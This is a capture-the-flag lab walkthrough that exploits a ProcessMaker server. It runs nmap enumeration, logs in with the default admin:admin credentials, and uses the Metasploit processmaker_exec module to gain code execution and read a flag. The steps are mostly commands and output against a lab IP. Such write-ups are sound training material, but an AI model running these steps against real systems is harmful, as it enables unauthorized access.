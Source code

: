 # 🔬Win Workflow Platform - MS

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Windows: Workflow Platform](https://attackdefense.com/challengedetailsnoauth?cid=1946)
>
> * Target IP: `10.0.28.252`
> * Exploit a vulnerable ProcessMaker server with **Metasploit**

```bash
nmap -sS -sV 10.0.28.252
```

```bash
Not shown: 990 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.2.23 ((Win32) PHP/5.2.14)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql              MySQL (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

#### Enumeration <a href="#enumeration" id="enumeration"></a>

* Explore the web application hosted on the web server, before running any vuln scanners
* Search the target IP `10.0.28.252` in browser.

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* View the web page source code. In this case no **version information** can be found.
* Search online for `ProcessMaker` [default credentials](https://wiki.processmaker.com/index.php/2.0/Login\_Settings)
  * `admin`:`admin`

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Exploitation <a href="#exploitation" id="exploitation"></a>

```bash
searchsploit ProcessMaker
# Try "ProcessMaker Open Source - (Authenticated) PHP Code Execution (Metasploit)"

cd Desktop
searchsploit -m 29325
less 29325.rb
rm 29325.rb
# In this case a Metasploit module will be used
```

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.0.28.252
workspace -a ProcessMaker
```

```bash
search ProcessMaker
use exploit/multi/http/processmaker_exec
options
set USERNAME admin
set PASSWORD admin
exploit
```

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

```bash
pwd
cd /
dir
cat flag.txt
```

{% hint style="success" %}
**Flag:** `a3dcb4d229de6fde0db5686dee47145d`
{% endhint %}
